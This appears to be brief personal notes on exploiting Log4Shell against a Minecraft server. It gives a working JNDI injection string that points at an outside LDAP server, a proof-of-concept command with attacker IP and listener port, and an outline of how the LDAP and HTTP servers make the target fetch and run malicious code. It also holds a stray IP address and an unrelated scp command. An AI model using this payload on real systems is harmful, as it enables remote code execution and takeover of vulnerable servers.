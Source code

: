 log4shell remote server ping command:
`${jndi:ldap://3.21.35.33:1389/a}`
`python3 poc.py --userip 3.21.35.33 --webport 8000 --lport 9001`
- 24.107.226.80
## Parts
### ldap server
- middle man between minecraft and http
- tells minecraft to request code from http server
- 
### Http server
- stores malicous code
- sends code to minecraft server

### 

`scp file.txt remote_username@10.10.0.2:/remote/directory`